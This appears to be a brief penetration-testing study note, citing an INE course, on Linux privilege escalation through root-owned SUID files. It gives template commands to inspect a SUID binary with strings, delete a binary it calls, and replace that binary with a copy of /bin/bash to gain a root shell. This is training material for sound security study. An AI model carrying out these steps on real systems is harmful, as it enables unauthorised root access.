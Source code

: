 # SUID

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

Look for SUID files owned by root with:
```
ls -al
```

```
strings [SUID-FILE]
```
Look for binaries and modify any binary that is in the SUID FIle:
```
rm [SUID-LINKED-BINARY]
```
```
cp /bin/bash [SUID-LINKED-BINARY]
```

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2